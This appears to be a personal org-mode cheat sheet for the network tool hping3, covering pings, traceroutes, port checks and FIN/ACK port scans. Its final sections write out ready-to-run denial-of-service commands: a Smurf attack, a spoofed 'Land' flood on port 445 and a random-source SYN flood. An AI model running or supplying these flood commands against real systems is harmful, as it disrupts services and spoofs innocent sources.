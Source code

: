 #+TAGS: net anal sec_d


* hping3						     :net:anal:sec_d:
* Description
This command is used to analyse and assemble tcp/ip packets. hping3 is based on the ping command but is not only limited to the icmp echo requests.

** Possible use cases
- Firewall testing
- Advanced port scanning
- Network testing, using different protocols, TOS, fragmentation
- Manual path MTU discovery
- Advanced traceroute
- Remote OS fingerprinting
- Remote uptime guessing
- TCP/IP stacks auditing

* Usage

** Normal ping test
> hping3 -1 <domain.com>
1 - protocol type (1 = icmp)

+ Traceroute example
> hping3 --traceroute -V -1 <domain.com>
V - verbose

** Checking port
> hping3 -V -S -p <port\_number> -s <port\_number> <domain.com> 

** Traceroute to a specific port
> hping3 --traceroute -V -S -p <port\_number> -s <port\_number>
<domain.com>

S - tcp flag (syn)
p - source port
s - destination port
+ Setting type of icmp

> hping3 -c 1 -V -1 -C 17 <domain.com>
c - count
C - icmptype

This is set for an icmp address mask request (type 17)

** Fin Port Scan
> hping3 -c 1 -V -p 80 -s 5050 -F <domain.com>

** Ack Port Scan
> hping3 -c 1 -V -p 80 -S 5050 -A <domain.com>

** Smurf Attack
> hping3 -1 --flood -a <dest\_ip> <broadcast\_add>

** Dos Land Attack
> hping3 -1 -V -c 10000000 -d 120 -S -w 64 -p 445 -s 445 --flood
--rand-source <dest\_ip>

flood - send packets as fast as possible
rand-source - randomise the source ip
d - data size
w - window size

** Setting interface to use for Dos Rand Attack
> hping3 -S -p 80 -s 5050 --flood --interface <ethx> --rand-source <dest\_ip>

* Lecture
* Tutorial
* Books
* Links




